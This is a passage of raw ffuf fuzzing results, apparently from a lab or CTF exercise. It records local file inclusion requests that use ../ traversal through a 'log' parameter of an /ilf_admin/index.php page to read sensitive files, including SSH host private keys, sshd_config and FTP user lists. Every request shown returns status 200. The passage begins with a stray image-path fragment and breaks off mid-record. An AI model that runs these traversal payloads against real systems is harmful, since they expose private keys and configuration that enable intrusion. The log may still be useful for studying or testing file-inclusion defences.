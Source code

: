 charset=UTF-8","redirectlocation":"","scraper":{},"duration":45674518,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ssh/sshd_config","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf552","FUZZ":"/etc/ssh/ssh_host_dsa_key"},"position":82,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45674559,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ssh/ssh_host_dsa_key","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf553","FUZZ":"/etc/ssh/ssh_host_dsa_key.pub"},"position":83,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43412766,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ssh/ssh_host_dsa_key.pub","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf554","FUZZ":"/etc/ssh/ssh_host_key"},"position":84,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42924403,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ssh/ssh_host_key","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf556","FUZZ":"/etc/sysconfig/network"},"position":86,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42599682,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/sysconfig/network","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf555","FUZZ":"/etc/ssh/ssh_host_key.pub"},"position":85,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43999799,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ssh/ssh_host_key.pub","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf557","FUZZ":"/etc/syslog.conf"},"position":87,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43108335,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/syslog.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf55a","FUZZ":"/etc/vsftpd.chroot_list"},"position":90,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42795703,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/vsftpd.chroot_list","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf558","FUZZ":"/etc/termcap"},"position":88,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43838608,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/termcap","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf559","FUZZ":"/etc/vhcs2/proftpd/proftpd.conf"},"position":89,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44516562,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/vhcs2/proftpd/proftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf55b","FUZZ":"/etc/vsftpd.conf"},"position":91,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44040950,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/vsftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf55c","FUZZ":"/etc/vsftpd/vsftpd.conf"},"position":92,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44445362,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/vsftpd/vsftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf55d","FUZZ":"/etc/wu-ftpd/ftpaccess"},"position":93,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43735738,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/wu-ftpd/ftpaccess","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf55e","FUZZ":"/etc/wu-ftpd/ftphosts"},"position":94,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44300081,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/wu-ftpd/ftphosts","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf55f","FUZZ":"/etc/wu-ftpd/ftpusers"},"position":95,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45538007,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/wu-ftpd/ftpusers","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf560","FUZZ":"/logs/pure-ftpd.log"},"position":96,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;